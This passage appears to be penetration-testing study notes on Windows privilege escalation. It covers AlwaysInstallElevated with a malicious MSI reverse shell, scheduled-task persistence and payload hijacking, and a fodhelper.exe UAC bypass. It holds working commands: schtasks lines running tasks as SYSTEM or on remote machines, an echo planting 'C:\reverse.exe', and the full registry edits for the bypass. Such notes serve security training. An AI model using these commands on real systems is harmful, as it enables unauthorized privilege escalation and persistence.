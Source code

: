 
{% endtab %}

{% tab title="AlwaysInstallElevated" %}
[**Windows Privilege Escalation (AlwaysInstallElevated)**](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)

* MSI files are used to install apps. They run with the permissions of the user trying to install. You can run these with admin (elevated) privs. We can use this by creating a malicious MSI file containing a reverse shell
* Check 2 registry settings. These must be present and enabled
  * HKLM\SOFTWARE\POLICIES\Microsoft\Windows\Installer
  * HKCU\SOFTWARE\POLICIES\Microsoft\Windows\Installer
* \>.\winPEASany.exe quiet windowscreds
* \> reg query HKCU\SOFTWARE\POLICIES\Microsoft\Windows\Installer /v AlwaysInstallElevated
* Create a reverse shell in the .msi format
* [https://github/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always\_install\_elevated.rb](https://github/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always\_install\_elevated.rb)
{% endtab %}
{% endtabs %}

### Other Exploits And Techniques

{% tabs %}
{% tab title="Scheduled Tasks" %}
* Admins can config tasks to run as other users or SYSTEM
* List all tasks your current user can see
  * \> schtassk /query /fo LIST /v
  * PS> Get-ScheduledTask | where {$\_.TaskPath -notlike "\Microsoft\*} | ft TaskName,TaskPath,State
* Check tasks and called files for when/if they are executed
  * \>echo C:\reverse.exe >> \[scheduled executable]
* Schedule a task that runs everytime the system starts
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onstart
* Schedule a task that runs when a user logs on.
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon
* Schedule a taks that runs when the system is idle
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onidle /i \[1-999]
* Schedule a task that runs one
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc once /st {HH:MM}
* Schedule a task that runs with system permissions
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon /ru System
* Schedule a task that runs on a remote computer
  * \> schtasks /create /tn \[taskname] /tr \[Taskrun] /sc onlogon /s \[PC name]
{% endtab %}

{% tab title="UAC Bypass" %}
* fodhelper.exe attack
  * _PTFM: UAC Bypass - pg. 33_
  * This binary runs as high integrity on windows 10. We can leverage it to bypas UAC by the way it uses the Registry.
  * Run C:\Windows\System32\fodhelper.exe -> manage optional features -> inspect application manifest with sigcheck
  * \> cd C:\Tools\privilege\_escalation\SysinternalsSuite
  * \> sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
  * next we look at fodhelper.exe while running procmon
  * Will generate a “NAME NOT FOUND” error and indicate an potential exploitable registry entry
  * fodhelper.exe attemtps to query HKCU:\Software\Classes\ms-settings\shell\open\command, which does not appear to exist
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG\_SZ
  * \> REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
* Via Event Viewer
  * _PTFM: UAC Bypass - pg. 33_**j**
{% endtab %}

